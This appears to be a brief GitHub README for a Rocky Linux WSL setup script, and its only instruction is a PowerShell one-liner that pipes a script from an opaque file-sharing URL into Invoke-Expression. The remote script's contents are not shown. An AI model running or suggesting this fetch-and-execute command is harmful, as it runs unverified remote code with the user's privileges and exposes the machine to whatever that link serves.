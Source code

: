 # rockylinux_wsl
Simple WSL script for Rocky linux with container image

'''
curl "https://ftp.crak.in/share/wv375B6O" | Invoke-Expression
'''
